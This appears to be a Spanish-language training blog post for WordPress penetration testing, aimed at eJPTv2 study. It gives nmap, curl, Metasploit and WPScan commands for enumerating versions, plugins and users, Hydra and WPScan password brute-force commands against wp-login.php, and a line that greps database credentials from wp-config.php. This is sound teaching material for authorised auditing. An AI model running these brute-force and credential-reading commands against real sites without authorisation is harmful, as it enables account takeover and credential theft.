 ```yaml
---
layout: single
title: WordPress Pentesting
excerpt: "Hacking"
date: 2021-05-22
classes: wide
header:
  teaser: /assets/images/Wordpress/1.png
  teaser_home_page: true
  icon: /assets/images/Wordpress/1.png
categories:
  - Wordpress
  - eJPTv2
tags:
  - eJPTv2
  - WordPress
---
```


# Auditoria CMS WordPress

-----

##  **🕵️ Identificación de la versión de WordPress y sus componentes**

### **Reconocimiento de servicios en WordPress**

```bash
nmap -sV --script http-wordpress-enum <url> # Detección de la versión de WordPress y plugins.
nmap -sV --script "http-wordpress* and not http-wordpress-brute" <url> # Escaneo de vulnerabilidades en WordPress.
nmap -sV --script http-wordpress-users <url> # Enumeración de usuarios de WordPress.
nmap --script=http-wordpress-enum --script-args http-wordpress-enum.root=/ -p 80,443 <URL> # Escaneo completo para confirmar el uso de WordPress.
nmap --script=http-vuln* -p 80,443 <url> # Detección de vulnerabilidades específicas en WordPress y sus plugins.
```
También podemos intentar enumerar plugins con la herramienta _curl_:

```ruby
curl -s -X GET "<ip_victima>" | grep -oP 'plugins/\K.*' | sort -u 
```

> Es importante verificar siempre ciertos directorios durante cualquier escaneo de WordPress.

### **✔️ Checklist de WordPress**

🎯 Para comprobar si existe un panel de inicio de sesión:

- url/wp-admin/login.php
- url/wp-admin/wp-login.php
- url/wp-login.php

🎯 Otros directorios clave a revisar en cualquier sitio web:

- url/robots.txt
- url/sitemap.xml
- url/CHANGELOG.txt

----

Si al acceder al servicio web notamos que no visualmente no carga correctamente, es posible que se esté utilizando *Virtual Hosting*. En este caso, deberemos añadir el dominio al que apunta realmente en nuestro archivo **/etc/hosts**. Para ello, agregamos la *IP de la web junto con el dominio correspondiente*, por ejemplo: `<ip_objetivo> blog.thm`.

---

###  **🛠️ Escaneo básico de WordPress con Metasploit**

```bash
use auxiliary/scanner/http/wordpress_version # Cargar el módulo.
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```
### **🕵️ Enumeración de usuarios en WordPress**

```bash
use auxiliary/scanner/http/wordpress_users_enum
set RHOSTS <url>
set RPORT 80
set TARGETURI /
run
```

### **🔑 Ataque de fuerza bruta con Metasploit**

```bash
set RHOSTS <url>
set USERNAME <nombre_usuario> # Nombre de usuario objetivo.
set PASS_FILE /usr/share/wordlists/rockyou.txt # Diccionario de contraseñas.
exploit
```

  ### **🛠️ Otras herramientas para auditar WordPress**

### **🔹 WPScan**

**WPScan** es una herramienta especializada en la enumeración y auditoría de sitios basados en **WordPress**. Permite detectar vulnerabilidades, usuarios, plugins temas instalados y realizar ataques de fuerza bruta.

```bash
wpscan --url <url_wordpress> # Análisis básico de WordPress.
wpscan --url <url_wordpress> -e vp,u # Enumeración de plugins vulnerables y usuarios.
wpscan --url <url_wordpress> -e t # Enumeración de temas instalados.
```
> Para realizar un escaneo mas detallado deberemos añadir nuestro **token** de wpscan.

> 💡 Una buena práctica durante la auditoría de WordPress es revisar el código fuente de la página. Allí podemos encontrar rutas como `/uploads`, analizar si hay _directory listing_, identificar temas, plugins y posibles filtraciones de información (_information leakage_), vhosts, entre otros.

> 💡 También es recomendable examinar publicaciones de blogs u otras secciones del sitio web en busca de nombres de usuario que puedan ser utilizados en ataques de fuerza bruta.

----

### **🔑 Fuerza bruta en el panel de inicio de sesión de WordPress**

**Ataque de fuerza bruta con WPScan**

```bash
wpscan --url <url/wp-login.php> -U <username> -P /usr/share/wordlists/rockyou.txt # Uso de diccionario de contraseñas.
wpscan --url <url/wp-login.php> --passwords <ruta_diccionario.txt> --usernames <ruta_usuarios.txt> # Ataque con múltiples usuarios.
```

### **Ataque de fuerza bruta con Hydra**

```bash
hydra -l <username> -P /usr/share/wordlists/rockyou.txt <url> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```

### Ataque a múltiples usuarios:

```bash
hydra -L <lista_usuarios.txt> -P <diccionario.txt> <url> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:F=incorrect"
```

> 🏁 Con estos métodos, podemos identificar la versión de WordPress utilizada, detectar plugins y temas instalados, analizar directorios sensibles, localizar paneles de acceso y ejecutar ataques de fuerza bruta para intentar obtener acceso al sistema.

> 💡credenciales de la base de datos MySQL dentro de los archivos de configuración de WordPress:

```bash
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
```

<iframe width="560" height="315" src="https://www.youtube.com/watch?v=cI27_M5_a4E&t" 
title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; 
encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

## Puedes seguir mas contenido en @henkosec (Youtube).